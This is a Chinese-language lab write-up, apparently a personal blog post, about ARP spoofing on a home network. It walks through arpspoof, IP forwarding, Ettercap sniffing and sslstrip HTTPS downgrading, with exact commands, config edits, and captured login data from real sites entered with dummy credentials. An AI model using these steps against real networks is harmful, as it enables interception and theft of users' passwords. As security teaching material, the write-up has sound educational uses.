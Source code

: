 ```yaml
---
layout: post
title: "ARP欺骗从入门到入狱"
date: 2017-7-23
excerpt: "实验：从ARP断网攻击到使用基于ARP欺骗的MITM窃取HTTPS加密的用户名和密码"
tag:
- MITM
comments: true
---
```



## 实验环境
网关：无线路由器（192.168.0.1）  
攻击者kali linux 2.0（192.168.0.106）  
靶机：Android 6.0（192.168.0.101）

## 0x01-ARP断网攻击

由于这三个实验都是基于ARP欺骗的，所以我们首先要理解ARP大致工作流程

在要发送一个报文到某个IP地址时：  
1. 主机查找本机ARP缓存  
2. 如果没有，主机将广播包含目标IP地址的ARP请求报文  
3. 非目标主机丢弃报文，目标主机返回带有自己MAC地址的ARP应答报文  
4. 收到返回报文后主机将该IP地址和Mac地址存入本机ARP缓存中并保留一定时间(节约资源)

这里我们还不得不提一下ARP协议的两个最大的漏洞：  
1. 整个协议里不存在检测ARP报文真实性的部分  
2. 只要主机一接收到ARP报文就会马上在ARP缓存中替换掉原有正确的IP和Mac的映射关系  
所以我们可以随意的修改IP和Mac的映射关系，让靶机误以为攻击者是网关。  

好了，让我们开始实验。  
我们首先需要用到一个工具：arpspoof  
先让我们看看它到底该怎么用吧

    $ sudo arpspoof -h

得到版本号和参数

    Version: 2.4
    Usage: arpspoof [-i interface] [-c own|host|both] [-t target] [-r] host     （-i所指的接口就是你当前使用的网卡）

知道它需要哪些参数就好办了，本机目前使用的网卡是wlan0，我的内网IP是192.168.0.106，靶机的内网IP是192.168.0.101（当然在真实环境中没这么容易获得目标的IP的，一般是需要先欺骗再进行数据包分析以确定目标IP，所以说数据包分析是前置技能，可惜本菜鸡还没到这水平～）

    $ sudo arpspoof -i wlan0 -t 192.168.0.101 192.168.0.1

用这条命令攻击的过程大概来说就是对192.168.0.101发送ARP报文，报文中192.168.0.1对应的Mac地址被替换成了192.168.0.106的Mac地址，告诉它攻击者是网关，所以靶机就会把本该发给网关的数据包发给攻击者，表现出来的现象就是断网。

我们这个时候可以试试用靶机ping百度，ping不通，浏览器里也打不开非本地的网站，证明实验成功了。


## 0x02-使用基于ARP欺骗的MITM窃取HTTP报文中的用户名和密码

首先，我们必须知道一些关于HTTP的知识

客户端和Web服务器HTTP通信过程：  
1. 客户端与Web服务器进行三次握手，建立TCP链接  
2. 客户端向Web服务器的80端口发送HTTP请求
3. Web服务器向客户端发送HTTP响应  
4. 客户端与Web服务器进行四次握手，断开TCP链接

HTTP有一个特性在本实验里特别重要：HTTP里的内容是**明文传输**的（划重点）

接下来我们介绍一下攻击思路  
MITM的前提就是攻击者要作为中间人存在于靶机和与靶机进行通讯的计算机之间，在这个实验里我们的目的是窃取HTTP报文里面的帐号密码，所以我们直接让攻击者处于靶机和网关之间，一切出网关的报文都会经过攻击者。不幸的是HTTP报文里面的所有内容都是明文传输的，只要抓到包含帐号密码的HTTP报文，我们可以直接在里面看到用户名和密码，所以现在推行的HTTPS就是为了防止骇客直接从HTTP报文里找到你的帐号密码以及其他重要信息而用SSL加密的HTTP，我会在下个实验里面更加具体讲解。

刚刚已经说明了攻击思路，现在我们要来实现它了。  
首先我们需要让攻击者处于靶机和网关之间，这就需要先进行ARP欺骗来让靶机误以为攻击者就是网关。但是还有一个部分就是在通过攻击者主机的报文中，抓取到带有帐号密码的HTTP报文，该怎么办呢？用wireshark来抓包？这的确可行，但是在真实场景里一台计算机所产生的数据包简直是海量的，从里面找出包含帐号密码的HTTP报文需要花大量的时间和精力，黑客们肯定不会这么做，他们开发出了Ettercap使其自动化（当然Ettercap的功能不限于此，但因为本文主题我就不具体介绍了）

我们用Arpspoof我们继续上个实验的操作：

    $ sudo arpspoof -i wlan0 -t 192.168.0.101 192.168.0.1

这就实现了让靶机把攻击者当作网关的部分，但是我们还记得在第一个实验里，这条命令造成的结果是断网。这其实是攻击者没有开启路由转发功能，报文虽然到了攻击者但是没被攻击者交给网关，因为报文的IP地址并不是属于它的，所以被丢弃了。开启路由转发功能的攻击者如果只看协议栈的下三层的话，可以视为一台路由器。

所以在输入上一条命令前，我们要先开启路由转发功能  

    # echo 1 > /proc/sys/net/ipv4/ip_forward

我们可以用cat查看/proc/sys/net/ipv4/ip\_forward这个文件，默认是0（关闭）我们执行了这条命令后它就会变为1（开启）。这个文件在电脑关闭后会重置。

欺骗成功后我们就要使用Ettercap获取帐号密码了

    $ sudo ettercap -T -q -i wlan0

帮助文档里的参数比较多，我就稍微介绍这几个：-T：选择GUI为命令行，-q：安静模式（不显示报文内容，只能在GUI命令行时使用），-i：端口（也就正在使用的网卡）

这条命令能从wlan0上的报文中嗅探并显示出一些比较重要的报文，我们的目标：包含用户名和密码的HTTP报文当然也在其中。

我们在靶机上用武汉大学（随便找的，无恶意~）的教务系统做测试一下，输入用户名admin密码password
Ettercap马上就返回了以下的数据

    0    CONTENT: username=admin&password=password&captchaResponse=&lt=LT-1951166-WzPj5tTMtB7fy2DdJBMmKdjykjBSdI1500909066555-mrXp-cas&dllt=userNamePasswordLogin&execution=e1s2&_eventId=submit&rmShown=1

用户名和密码还有登录的URL都在其中，实验成功。

所以说用HTTPS来淘汰掉HTTP是很有必要的，但是HTTPS也不是我们想象的那么安全。下一个实验我们就要窃取HTTPS中的用户名和密码了。

## 0x03-使用基于ARP欺骗的MITM窃取HTTPS报文中的用户名和密码

既然这个实验也是属于MITM，其中的思路和上一个一模一样，我就不再说了，但我们要知道一些关于HTTPS的知识。

如果要用一句话来概括HTTPS的话，那就是:

> HTTPS协议是由HTTP+SSL/TLS构建的可进行加密传输、身份认证的网络协议

HTTPS的通信过程和HTTP略有不同：  
1. 客户端与Web服务器进行三次握手，建立TCP链接  
2. 客户端向Web服务器的80端口发送HTTP请求  
3. Web服务器向客户端发送应答状态码为302的HTTP响应，把基于HTTP传输的网站重定向到基于HTTPS的同一个网站  
4. 客户端向Web服务器的443端口发送HTTPS请求  
5. Web服务器向客户端发送包含数字签名的证书（关于数字签名证书什么的可以去看看这个：[数字签名是什么？](http://www.ruanyifeng.com/blog/2011/08/what_is\_a\_digital\_signature.html)）  
6. 客户端验证证书  
7. 建立基于SSL/TLS的加密通信（失败的话就会提示证书过期或不可信）  
8. 客户端与Web服务器进行四次握手，断开TCP链接

看出什么了吗？  
HTTPS之所以安全的原因就是它把数据用SSL加密了，但要是我们在SSL/TLS加密之前做一些手脚的话，HTTPS就不再安全了。  
在第三步，只要不让客户端知道Web服务器想要把它重定向到HTTPS的网站，它就会继续向Web服务器发送HTTP报文，而只要让Web服务器以为和客户端正常通信的话在这部分一丝痕迹都不会泄漏。但是我们怎么能做到这些呢？别忘了我们的攻击者作为中间人处于Web服务器和靶机之间，我们可以通过把靶机发往攻击者的HTTP报文修改成HTTPS再发送给Web服务器，这样在Web服务器看来这只是一次正常的和客户端通信而已。这个原理和小时侯老师让你交50学杂费然而你找老妈要了100是一模一样的，但不一样的是Web服务器和靶机不会有一天碰在一起发现了真相然后把你打一顿。

我们要启用Kali里自带的一个工具:SSL strip来实现这次攻击  
在使用之前我们需要先修改一下Ettercap的配置文件

    $ sudo vim /etc/ettercap/etter.conf

找到如下的部分，把# if you use iptables:下面两个条目前的#去掉

    #---------------
    #     Linux
    #---------------

    # if you use ipchains:
       #redir_command_on = "ipchains -A input -i %iface -p tcp -s 0/0 -d 0/0 %port -j REDIRECT %rport"
       #redir_command_off = "ipchains -D input -i %iface -p tcp -s 0/0 -d 0/0 %port -j REDIRECT %rport"

    # if you use iptables:
       #redir_command_on = "iptables -t nat -A PREROUTING -i %iface -p tcp --dport %port -j REDIRECT --to-port %rport"
       #redir_command_off = "iptables -t nat -D PREROUTING -i %iface -p tcp --dport %port -j REDIRECT --to-port %rport"

现在可以开始使用SSL strip了

    $sudo sslstrip -a -f -k

（-a记录所有的SSL和HTTP，-f代替锁图标的安全需求，-k中断在进行的会话）

我们这次用4399试试
在登录框输入用户名ilove4399，密码password  
Ettercap返回了如下数据：

    HTTP : 120.147.161.50:443 -\> USER:   PASS: password  INFO: https://ptlogin.4399.com/oauth2/loginAndAuthorize.do
    CONTENT: isInputRealname=false&isValidRealname=false&username=ilove4399&password=password&uid=&auth\_action=LOGIN&scope=basic&show\_close\_button=&username\_history=&redirect\_uri=http%3A%2F%2Fsave.api.4399.com%2Fh5%2Fv2%2Fuser%2Fcallback%3Ffrom%3Dhttp%3A%2F%2Fh.4399.com%2Fuser.htm&show\_4399=&show\_back\_button=&show\_topbar=&autoCreateAccount=&aid=&_d=&cid=&reg_mode=reg\_phone&show\_ext\_login=true&expand\_ext\_login\_list=&ref=&response\_type=TOKEN&show\_forget\_password=&auto\_scroll=&client\_id=a9a16636dbaeb917e2ffb16f0d52006e&css=&access\_token=

出了点小问题，用户名没有在上面显示出来，但我们能下面的数据里面找出，所以无伤大雅。


**受本菜鸡水平所影响，这篇文章里面可能有不少错误，如有发现请发Email指正，多谢！**
